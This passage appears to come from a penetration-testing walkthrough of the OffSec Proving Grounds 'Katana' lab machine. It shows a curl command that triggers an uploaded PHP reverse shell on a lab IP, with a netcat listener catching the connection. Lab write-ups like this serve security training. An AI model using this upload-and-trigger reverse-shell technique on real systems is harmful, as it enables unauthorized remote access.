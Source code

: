 ![Link an image](https://raw.githubusercontent.com/DigitalHammer/Security-Writeups/main/OffSec-ProvingGrounds/Katana/Images/09-netcat-start.jpg "Katana Walkthrough")

- Now we can either `curl` our shell or visit it in the browser to activate it. We will use `curl` from the command line to activate it.
- We also need to note that the web server told us our upload was moved to the other web server and gave us a url to it.
  - We know that we were on port `8088` when we uploaded our shell and we know that HTTP is open on ports `80` and `8715`.
  - Most likely, the web server it moved it to `8715`. We will use that port for the url in our `curl` command.

```
curl http://192.168.60.83:8715/katana_katanarevshell.php
```

![Link an image](https://raw.githubusercontent.com/DigitalHammer/Security-Writeups/main/OffSec-ProvingGrounds/Katana/Images/10-activate-shell.jpg "Katana Walkthrough")

- Success! Our terminal on the right shows our `curl` command to activate the shell and the terminal on the left shows our netcat listener gained a connection!

---
